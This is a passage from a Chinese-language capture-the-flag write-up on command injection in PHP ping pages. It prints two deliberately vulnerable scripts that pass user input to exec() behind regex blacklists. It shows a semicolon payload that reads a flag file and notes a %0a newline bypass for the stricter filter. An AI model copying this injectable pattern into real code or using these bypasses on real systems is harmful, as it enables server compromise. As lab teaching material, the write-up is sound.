 ### 过滤运算符

查看源码，可以利用 **；**绕过

    <?php
    $res = FALSE;
    if (isset($_GET['ip']) && $_GET['ip']) {
        $ip = $_GET['ip'];
        $m = [];
        if (!preg_match_all("/(\||\&)/", $ip, $m)) {          //利用正则匹配过滤了 | 和 & 
            $cmd = "ping -c 4 {$ip}";
            exec($cmd, $res);
        } else {
            $res = $m;
        }
    }
    ?>
    

查看当前目录

![](https://track123.oss-cn-beijing.aliyuncs.com/20250209170350520.png)

执行以下命令

    127.0.0.1;cat flag_4351260182213.php
    

得到flag

![](https://track123.oss-cn-beijing.aliyuncs.com/20250209165053076.png)

### 综合过滤练习

源码审计

    <?php
    $res = FALSE;
    if (isset($_GET['ip']) && $_GET['ip']) {
        $ip = $_GET['ip'];
        $m = [];
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)) {  //过滤了 | & ; 空格 / cat flag ctfhub
            $cmd = "ping -c 4 {$ip}";
            exec($cmd, $res);
        } else {
            $res = $m;
        }
    }
    ?>
    

利用换行符**%0a绕过**查看当前目录

![](https://track123.oss-cn-beijing.aliyuncs.com/20250209171041032.png)
